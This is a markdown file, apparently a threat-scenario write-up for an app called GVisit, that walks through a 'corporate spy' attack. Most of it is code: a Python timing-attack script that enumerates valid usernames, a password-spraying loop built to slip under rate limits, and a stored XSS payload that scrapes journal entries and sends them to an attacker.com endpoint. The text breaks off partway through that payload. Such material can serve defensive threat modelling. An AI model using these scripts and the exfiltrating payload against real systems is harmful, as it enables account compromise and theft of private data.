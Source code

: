 # Real-World Attack Scenarios for GVisit

## 🎭 Attack Scenario 1: The Corporate Spy

**Target**: A company using GVisit for internal journaling and presentations

### Step 1: Username Enumeration via Timing Attack
```python
# Attacker's script running from their laptop
import requests
import time

company_emails = [
    'john.smith@company.com',
    'jane.doe@company.com', 
    'ceo@company.com',
    'cfo@company.com',
    # ... hundreds more from LinkedIn
]

valid_users = []
for email in company_emails:
    start = time.time()
    requests.post('https://gvisit.company.com/journal_login', 
                  data={'username': email, 'password': 'wrong'})
    elapsed = time.time() - start
    
    if elapsed > 0.1:  # Valid user (password check took time)
        valid_users.append(email)
        print(f"[+] Found: {email}")
```
**Result**: In 5 minutes, attacker has list of all employees using GVisit

### Step 2: Targeted Password Attacks
```python
# Now attack only valid accounts with common passwords
passwords = ['Password123', 'Company2024!', 'Summer2024', firstname + '123']

for user in valid_users:
    for password in passwords:
        # Try login with rate limiting evasion
        time.sleep(2)  # Avoid rate limits
        if try_login(user, password):
            print(f"[!] COMPROMISED: {user}:{password}")
```

### Step 3: XSS Payload Injection
Once logged in as low-privilege user:
```javascript
// Inject this in a journal entry
<img src=x onerror="
// Steal all journal entries
const entries = Array.from(document.querySelectorAll('.journal-entry')).map(e => ({
    author: e.querySelector('.author').textContent,
    content: e.querySelector('.content').textContent,
    date: e.querySelector('.date').textContent
}));

// Send to attacker
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
```
